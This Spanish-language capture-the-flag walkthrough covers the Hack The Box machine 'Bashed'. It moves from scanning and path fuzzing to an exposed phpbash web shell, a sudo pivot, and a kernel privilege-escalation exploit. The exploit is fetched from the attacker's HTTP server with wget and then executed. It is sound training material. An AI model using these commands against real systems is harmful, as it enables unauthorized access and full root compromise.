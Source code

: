```yaml
---
title: Bashed
parent: Easy
nav_order: 2
---
```


# Walkthrough — Bashed (Hack The Box)
{: .fs-9 }

> Recorrido por la máquina *Bashed*, enfocada en la exposición de scripts en producción y una clásica escalada de privilegios local.
{: .fs-6 .fw-300 }

---

## 🧭 Introducción

**Bashed** es una máquina *Easy* de Hack The Box, ideal para practicar acceso inicial a través de archivos expuestos y escalar con una vieja gloria de los exploits de kernel. ¡Clásica, simple y efectiva!

- SO: Linux (Ubuntu 16.04)  
- Dificultad: Easy  
- Herramientas utilizadas: `nmap`, `ffuf`, `netcat`, `gcc`, `python3`, `wget`

---

## 🔎 Enumeración inicial

Lancé un escaneo completo con `nmap` para ver qué servicios estaban vivos:

```bash
nmap -sC -sV -p- -T4 10.10.10.68
```

> `-p-`: todos los puertos  
> `-sC -sV`: scripts por defecto y detección de versiones  
> `-T4`: velocidad decente sin romper cosas

![Nmap scan](/assets/images/bashed/01-nmap.png)

Resultado:

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 (Ubuntu)
```

Sólo un puerto abierto: **HTTP**. Sencillo, pero esto suele ser una señal de que lo jugoso está en la web.

---

## 🌐 Exploración web

Navegando a `http://10.10.10.68` encontré algo interesante…

![Página principal](/assets/images/bashed/02-mainpage.png)

Un sitio personal de desarrollo, y en él se menciona explícitamente el uso de **phpsbash**... ¿en producción?

> *"I actually developed it on this exact server"*

Gracias, desarrollador desconocido. 🎯

---

## 🕵️ Fuzzing de rutas

Para buscar rutas ocultas, utilicé `ffuf` con una wordlist de Seclists:

```bash
ffuf -u http://10.10.10.68/FUZZ \
-w /path/to/SecLists/Discovery/Web-Content/common.txt \
-mc 200,204,301,302,307,403 \
-fs 401 -t 40
```

![ffuf en acción](/assets/images/bashed/03-ffuf.png)

El resultado me reveló `/dev/`.

---

## 🛠️ phpBash en /dev/

Visitando `http://10.10.10.68/dev/`:

![Directorio dev](/assets/images/bashed/04-dev-dir.png)

Y sí… hay dos versiones de **phpsbash**. Ejecuté la principal:

![phpbash cargado](/assets/images/bashed/05-phpsbash-loaded.png)

Y conseguí una shell como `www-data`. ¡Vamos!

---

## 📡 Mejorando acceso y reverse shell

Monté un listener:

```bash
nc -lnvp 1234
```

![nc escuchando](/assets/images/bashed/06-nc-listen.png)

Y desde la consola web, lancé una reverse shell o mejoré la tty con:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![TTY mejorada](/assets/images/bashed/07-tty.png)

---

## 🧑‍💻 Flag de usuario

Navegando al home del usuario `arrexel`, encontré `user.txt`:

```bash
cat /home/arrexel/user.txt
```

![Flag usuario](/assets/images/bashed/08-user-flag.png)

Primera flag lista ✅

---

## ⬆️ Escalada de privilegios

Corrí `sudo -l` y encontré esto:

```bash
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

![sudo -l](/assets/images/bashed/09-sudo-l.png)

Eso significa que puedo ser `scriptmanager` sin contraseña:

```bash
sudo -u scriptmanager /bin/bash
```

![shell como scriptmanager](/assets/images/bashed/10-scriptmanager.png)

---

## 🧠 Post-enumeración

Con acceso como `scriptmanager`, revisé el kernel con `uname -a`:

![uname](/assets/images/bashed/11-uname.png)

Es un kernel vulnerable: `4.4.0-62`. En *ExploitDB* encontré una escalada local lista para usar.

---

## 💥 Explotación local — DirtyCow/Overlayfs

El exploit (`exploit.c`) se compila así:

```bash
gcc exploit.c -o rootme -static -O2
```

![Compilación](/assets/images/bashed/12-compile.png)

Serví el binario con Python:

```bash
sudo python3 -m http.server 80
```

![Servidor HTTP](/assets/images/bashed/13-http-server.png)

Y lo descargué desde la máquina víctima:

```bash
wget http://10.10.14.3/rootme -O /tmp/rootme
chmod +x /tmp/rootme
/tmp/rootme
```

![Transferencia y ejecución](/assets/images/bashed/14-transfer.png)

---

## 🧑‍🚀 ¡Root shell!

El exploit funcionó y me dio una shell como **root**:

![Shell root](/assets/images/bashed/15-root-shell.png)

---

## 🏁 Flag de root

La cereza del postre: `/root/root.txt`

```bash
cat /root/root.txt
```

![root.txt](/assets/images/bashed/16-root-flag.png)

🎉 ¡Máquina completada!

---

## ✅ Resumen final

| Acción | Resultado |
|--------|-----------|
| Escaneo inicial | Apache en puerto 80 |
| Enumeración web | phpBash expuesto |
| Acceso inicial | Shell como `www-data` |
| Escalada 1 | Sudo a `scriptmanager` |
| Escalada 2 | Exploit local al kernel |
| Flags | `user.txt` y `root.txt` ✔️ |

---

**Autor:** [gueco99](https://github.com/gueco99)  
🧠 Hack the Box – *Bashed* (Easy)
